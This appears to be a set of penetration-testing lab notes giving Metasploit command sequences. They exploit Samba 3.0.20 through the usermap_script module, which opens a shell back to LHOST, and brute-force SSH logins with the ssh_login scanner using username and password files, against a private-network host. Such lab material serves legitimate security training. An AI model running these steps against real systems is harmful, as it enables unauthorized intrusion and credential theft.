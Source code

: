 	
## Inside the searchsploit
		
			Search the samba version that you got by using the metasploit framework
			
					->	searchsploit Samba 3.0.20-Debian
					
					
## Inside the metasploit

		-> search samba
		
		Use the “usename map script” 
		
			-> use exploit/multi/samba/usermap_script
			
			-> show info
			
			-> show options
			
			-> set RHOSTS 192.168.10.4
			
			-> set LHOST 192.168.10.3
			
			

		Run the exploit
		
			-> run

			
		Close the connection
			
			-> ctrl+c		
			-> y
   
			
# SSH Bruteforce

## Use the metasploit module called

		 -> use auxiliary/scanner/ssh/ssh_login 
		
		-> show options
		
		-> set PASS_FILE /home/kali/Desktop/password.txt
		
		-> set USER_FILE /home/kali/Desktop/username.txt
		
		-> set RHOSTS 192.168.10.4
		
		-> set VERBOSE true
		
		
		Run the auxiliary module
				
				-> run
				
		See the availabe shells
		
				-> sessions
				